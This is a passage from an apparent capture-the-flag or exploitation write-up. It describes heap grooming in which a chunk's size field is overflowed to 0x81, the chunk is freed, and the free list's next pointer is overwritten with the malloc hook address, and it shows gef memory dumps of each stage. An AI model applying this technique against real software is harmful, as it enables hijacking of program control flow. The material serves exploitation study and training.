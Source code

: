 
Then we will allocate a chunk behind (thanks to a bit of heap grooming) the 33333333 chunk, which will overflow the size value with the byte 0x81.

```
gef➤  x/64g 0x55d01d7cc790
0x55d01d7cc790: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7a0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7b0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7c0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7d0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7e0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7f0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc800: 0x3434343434343434  0x3434343434343434
0x55d01d7cc810: 0x3434343434343434  0x3434343434343434
0x55d01d7cc820: 0x3434343434343434  0x3434343434343434
0x55d01d7cc830: 0x3434343434343434  0x3434343434343434
0x55d01d7cc840: 0x3434343434343434  0x3434343434343434
0x55d01d7cc850: 0x3434343434343434  0x181
0x55d01d7cc860: 0x3333333333333333  0x0
0x55d01d7cc870: 0x0 0x0
0x55d01d7cc880: 0x0 0x0
0x55d01d7cc890: 0x0 0x0
0x55d01d7cc8a0: 0x0 0x0
0x55d01d7cc8b0: 0x0 0x0
0x55d01d7cc8c0: 0x0 0x0
0x55d01d7cc8d0: 0x0 0x0
0x55d01d7cc8e0: 0x0 0x0
0x55d01d7cc8f0: 0x0 0x0
0x55d01d7cc900: 0x0 0x0
0x55d01d7cc910: 0x0 0x0
0x55d01d7cc920: 0x0 0x0
0x55d01d7cc930: 0x0 0x0
0x55d01d7cc940: 0x0 0x0
0x55d01d7cc950: 0x0 0x101
0x55d01d7cc960: 0x55d01d7cca60  0x55d01d7cc010
```

Then we will free the 33333333 chunk, then immediately allocate a new chunk of size 0x174 and use it to overwrite the next pointer in the linked list to the address of the malloc hook:

```
gef➤  x/64g 0x55d01d7cc790
0x55d01d7cc790: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7a0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7b0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7c0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7d0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7e0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7f0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc800: 0x3434343434343434  0x3434343434343434
0x55d01d7cc810: 0x3434343434343434  0x3434343434343434
0x55d01d7cc820: 0x3434343434343434  0x3434343434343434
0x55d01d7cc830: 0x3434343434343434  0x3434343434343434
0x55d01d7cc840: 0x3434343434343434  0x3434343434343434
0x55d01d7cc850: 0x3434343434343434  0x181
0x55d01d7cc860: 0x3131313131313131  0x3131313131313131
0x55d01d7cc870: 0x3131313131313131  0x3131313131313131
0x55d01d7cc880: 0x3131313131313131  0x3131313131313131
0x55d01d7cc890: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8a0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8b0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8c0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8d0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8e0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8f0: 0x3131313131313131  0x3131313131313131
```